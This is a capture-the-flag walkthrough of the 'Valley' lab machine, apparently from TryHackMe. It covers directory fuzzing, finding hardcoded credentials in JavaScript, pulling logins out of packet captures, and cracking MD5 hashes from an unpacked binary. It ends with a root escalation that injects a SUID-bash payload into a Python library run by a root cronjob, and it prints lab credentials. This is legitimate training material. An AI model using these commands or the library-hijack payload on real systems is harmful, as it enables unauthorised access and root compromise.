<div align="center">


# Valley

**Difficulty:** Easy    
**Category:** Web, Network analysis & Reverse engineering

</div>

---

Apache 2.4.41



```bash
feroxbuster -u http://10.81.133.147
```


`/pricing/notes.txt`






I also found this port open.

anonymous:anonymous does not work.
I can only find a DOS attack against `vsFTPd 3.0.3`.


HOW DO YOU EVEN THINK ABOUT THIS??
```bash
seq -w 00 99
```
`-w` padding with leading zeroes.
Creates a sequence between 00 to 99, padded with 0s.


00,01,02,03...,98,99

```bash
seq -w 00 99 > nums.txt
ffuf -u 10.81.133.147/static/FUZZ -w nums.txt
```


00 is weird, it is much smaller in size than the others:



```URL
http://10.81.133.147/dev1243224123123
```



We have a login page, page source shows `dev.js`:

```js
function showErrorMessage(element, message) {
  const error = element.parentElement.querySelector('.error');
  error.textContent = message;
  error.style.display = 'block';
}

loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

siemDev:california



Same creds for siemDev there?

```bash
ftp 10.81.133.147 -P 37370
siemDev : california
```
We're in!

We find three files:
* siemFTP.pcapng
* siemHTTP1.pcapng
* siemHTTP2.pcapng

# SiemFTP



tcp.stream eq 1: 



tcp.stream eq 2:



IN `siemHTTP2.pcapng`:



Filter for HTTP:



This is a post request to index.html?



valleyDev:ph0t0s1234

```HTTP
POST /index.html HTTP/1.1
Host: 192.168.111.136
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.111.136
Connection: keep-alive
Referer: http://192.168.111.136/index.html
Upgrade-Insecure-Requests: 1

uname=valleyDev&psw=ph0t0s1234&remember=on
```

This I can use to ssh
```bash
ssh valleyDev@10.81.133.147
```



```bash
cat user.txt
> THM{k@l1_<REDACTED>@lley}
```

```bash
cat /etc/passwd

valley:x:1000:1000:,,,:/home/valley:/bin/bash
siemDev:x:1001:1001::/home/siemDev/ftp:/bin/sh
valleyDev:x:1002:1002::/home/valleyDev:/bin/bash


siemDev:california
valleyDev:ph0t0s1234
```

Run linPEAS.

I found a binary: `valleyAuthenticator` that I downloaded to my machine via
```bash
sftp valleyDev@10.81.133.147:/home/valleyAuthenticator .
```

It turns out the binary was packed:
```bash
upx -t valleyAuthenticator
```



So I unpack it:
```bash
upx -d valleyAuthenticator -o valleyAuthenticator_unpacked #decompress
```

Now I strings it to try to find hashes:
```bash
strings valleyAuthenticator_unpacked | grep -E '^[a-z0-9]{32}$'
```



I found the format on "what hash is this" on google.
```bash
john --format=raw-md5 -w /usr/share/wordlists/rockyou.txt hashes.txt
```



There is a user `valley`, but not with password `emerald`.

I enter Ghidra:



I managed to reach this far when I realized that md5 is a very weak hashing algorithm. So I entered crackstation to see if it really was emerald:
Crackstation says:



valley:liberty123

LETS GO!





`valleyAdmin`

```bash
find / -group valleyAdmin 2>/dev/null
# OR
find / -gid 1003 2>/dev/null
```




If root runs a script using `base64.py` , I can inject code into that and Priv Esc.

```bash
ps auxww | grep root | grep py

grep -r "base64" /etc/cron*
```



But this is python3, not python3.8

I try this:

```bash
echo 'import os; os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")' >> /usr/lib/python3.8/base64.py 
```

After a while I find this:



Now, because the bash binary has the `SUID` bit, it will run as root. We have to supply the `-p` flag to bash in order to keep the "effective `UID`", if not I will just execute `/tmp/bash` as `valley`.
```bash
/tmp/bash -p
```



```bash
cat root.txt
THM{v@lley_<REDACTED>r1v3sc}
```

# Explanation

By looking into `/etc/crontab`:



#AfterReview **THIS CAN BE SEEN AS A LOW PRIVILEGE USER AS WELL, SHOULD CHECK THIS FIRST EVERY TIME!** 
* **ALSO: /photos IS A WEIRD DIRECTORY, INVESTIGATE IT!**

I can find that `/photos/script/photosEncrypt.py` runs every minute as root.

`photosEncrypt.py:`
```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```
imports base64! which is now:

```python
...
...
...

if __name__ == '__main__':
    main()
import os; os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")
```

# The Attack Chain
1. Find the website with hidden image `/static/00` which reveals the dev login portal.
2. Find hardcoded credentials in `view:source`.
3. When logged in get the hint "move ftp to normal port" & "stop reusing credentials".
4. Log into ftp as siemDev.
5. Download pcap files that reveal a post forms with credentials for valleyDev ssh.
	1. 2 accounts are compromised,  `valleyDev` & `siemDev`.
6. Find binary `valleyAuthenticator`.
	1. When inspected we can find two hashes, `username` & `password`.
7. Crack hashes: `valley:liberty123`.
8. Discover valley is part of group `valleyAdmin`.
9. Find special permissions for `valleyAdmin` group.
	1. Write access to `/usr/lib/python3.8/base64.py`
10. Inject code into `base64.py` package.
11. Get a root shell through a cronjob run as root.